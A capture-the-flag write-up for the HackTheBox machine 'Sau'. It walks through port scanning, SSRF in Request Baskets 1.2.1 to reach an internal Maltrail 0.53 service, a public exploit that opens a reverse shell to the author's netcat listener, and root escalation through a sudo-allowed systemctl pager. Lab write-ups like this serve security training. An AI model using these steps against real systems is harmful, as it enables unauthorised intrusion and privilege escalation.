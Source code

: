 ```yaml
---
title: HackTheBox - Sau
date: 2023-11-20 00:00:01
tags: [htb, ctf, writeup]
category: writeups
description: htb sau writeup
---
```


# Tools

- python
- netcat


<br>

## Getting User

### Nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -oA nmap/initial_scan 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-22 14:20 EST
Nmap scan report for 10.129.229.26
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -sC -sV -p 22,80,5555 -oA nmap/default_scan 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-22 14:21 EST
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp   filtered http
5555/tcp closed   freeciv
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



<br>

### Foothold

Visiting *http://10.129.229.26:55555*, I find its a web app running *Request Baskets v1.2.1*.
Which is vulnerable to SSRF. *(CVE-2023-27163)*
It appears we can change the Configuration Settings of our basket to the filtered *port 80*.


Set Foward URL to *http://127.0.0.1* and Enable *Insecure TLS*, *Proxy Response* and *Expand Forward Path*.
Send a request to the bucket's endpoint eg *http://10.129.229.26:55555/gn9uwun*

It forwards us to port 80, which is running *Mailtrail v0.53*.

Used this PoC I found in github *https://github.com/spookier/Maltrail-v0.53-Exploit*


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Sau/files/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.107 1234 http://10.129.229.26:55555/gn9uwun      
Running exploit on http://10.129.229.26:55555/gn9uwun/login

┌──(kali㉿kali)-[~/HTB/Sau]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.107] from (UNKNOWN) [10.129.229.26] 40456
$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Get the flag

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ cd ~
cd ~
$ ls
ls
user.txt
$ cat user.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



<br>

## Getting Root

### Information Gathering

Upgrade to an interactive shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We seem to have sudo permission to see *status* of *trail.service*


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
puma@sau:~$ sudo -l               
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

### Privilege Escalation

Execute the command that this will invoke a pager.
If we type *!sh* this will spawn a root shell *(https://gtfobins.github.io/gtfobins/systemctl/)*

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo systemctl status trail.service
sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


